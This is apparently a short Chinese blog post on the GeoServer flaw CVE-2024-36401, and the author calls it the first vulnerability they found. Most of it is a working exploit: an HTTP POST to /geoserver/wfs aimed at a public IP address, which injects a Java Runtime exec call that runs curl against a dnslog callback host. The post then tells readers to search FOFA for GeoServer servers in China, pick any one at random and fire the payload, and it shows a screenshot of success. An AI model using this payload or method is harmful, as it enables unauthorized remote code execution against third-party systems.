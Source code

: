 # CVE-2024-36401

<br>

### 挖到了人生第一个洞,记一下过程

<br>

### poc展示

````

POST /geoserver/wfs HTTP/1.1
Host: 124.221.193.109:9090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 123.123.123.123
Content-Length: 355

<wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'>
<wfs:Query typeNames='sf:archsites'/>
<wfs:valueReference>
	exec(java.lang.Runtime.getRuntime(),'curl 5uzglt.dnslog.cn') </wfs:valueReference>
</wfs:GetPropertyValue>

````

<br>

## 过程

去fofa上搜索相关资产

````
app="GeoServer" && country="CN"
````
然后随便找一个网址，直接上POC即可

<img src="https://54huarui.github.io/blogs/geo/2.png" width="880" height="480">

<br>

成功图示


<img src="https://54huarui.github.io/blogs/geo/1.png" width="880" height="480">

